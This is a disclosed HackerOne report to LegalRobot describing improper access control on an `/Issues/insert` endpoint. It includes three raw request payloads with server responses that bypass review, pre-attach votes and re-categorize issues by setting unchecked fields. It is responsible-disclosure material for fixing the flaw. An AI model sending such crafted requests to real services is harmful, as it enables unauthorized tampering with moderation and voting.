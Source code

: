 # Improper validation of parameters while creating issues

## Report Details
- **Report ID**: 260632
- **URL**: https://hackerone.com/reports/260632
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-08-16T07:14:51.882Z
- **Disclosed**: 2017-08-16T07:45:25.542Z

## Reporter
- **Username**: samczsun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: legalrobot

## Vulnerability Information
Heya LegalRobot Team,

There is some Improper Access Control on the `/Issues/insert` endpoint, which leads to three notable vulnerabilities.

-----

The first allows attackers to create public issues without undergoing review by setting `state: "Open"` and `public: true`. A sample request is given below:

```
>>> ["{\"msg\":\"method\",\"method\":\"/Issues/insert\",\"params\":[{\"name\":\"test2\",\"description\":\"testing2\",\"state\":\"Open\",\"type\":\"feature\",\"createdBy\":\"8kPzAttw8qghnCKxo\",\"public\":true,\"createdAt\":{\"$date\":1502786634092}}],\"id\":\"23\",\"randomSeed\":\"2c4ade5b34f282b86f46\"}"]
<<< a["{\"msg\":\"result\",\"id\":\"23\"}"]
<<< a["{\"msg\":\"updated\",\"methods\":[\"23\"]}"]
```
Notice that going to https://app.legalrobot-uat.com/roadmap while logged out shows the open ticket.

-----

The second allows attackers to create issues with votes already attached simply by populating the `votes` parameter to an array of arbitrary IDs. A sample request is given below:

```
>>> ["{\"msg\":\"method\",\"method\":\"/Issues/insert\",\"params\":[{\"name\":\"test3\",\"description\":\"testing3\",\"state\":\"New\",\"type\":\"feature\",\"createdBy\":\"8kPzAttw8qghnCKxo\",\"votes\":[\"8kPzAttw8qghnCKxo\",\"8kPzAttw8qghnCKxp\",\"8kPzAttw8qghnCKxq\",\"8kPzAttw8qghnCKxr\",\"8kPzAttw8qghnCKxs\"], \"public\":false,\"createdAt\":{\"$date\":1502786634092}}],\"id\":\"23\",\"randomSeed\":\"2c4adf5b34f282d86f46\"}"]
<<< a["{\"msg\":\"result\",\"id\":\"23\"}"]
<<< a["{\"msg\":\"updated\",\"methods\":[\"23\"]}"]
```

If you check the issue with ID `fbwsw3WrdGyFsEtea`, you'll see that it has 5 votes already attached to it, despite being under review. A screenshot of the outcome is also attached.

-----

The third allows attackers to re-categorize their own issues by modifying the `type` field. For example, by setting `type: "bug"`, an issue under `Known Issues` is generated. A sample request is given below:

```
>>> ["{\"msg\":\"method\",\"method\":\"/Issues/insert\",\"params\":[{\"name\":\"test3\",\"description\":\"testing3\",\"state\":\"somestatehere\",\"type\":\"bug\",\"createdBy\":\"8kPzAttw8qghnCKxo\",\"votes\":[\"8kPzAttw8qghnCKxo\",\"8kPzAttw8qghnCKxp\",\"8kPzAttw8qghnCKxq\",\"8kPzAttw8qghnCKxr\",\"8kPzAttw8qghnCKxs\"], \"public\":false,\"createdAt\":{\"$date\":1502786634092}}],\"id\":\"23\",\"randomSeed\":\"2c4adf5b35g282d86f46\"}"]
<<< a["{\"msg\":\"result\",\"id\":\"23\"}"]
<<< a["{\"msg\":\"updated\",\"methods\":[\"23\"]}"]
```
A screenshot of the outcome is attached

## Attachments
- f65fb566d8_1_.png
- 5545dc5820_1_.png
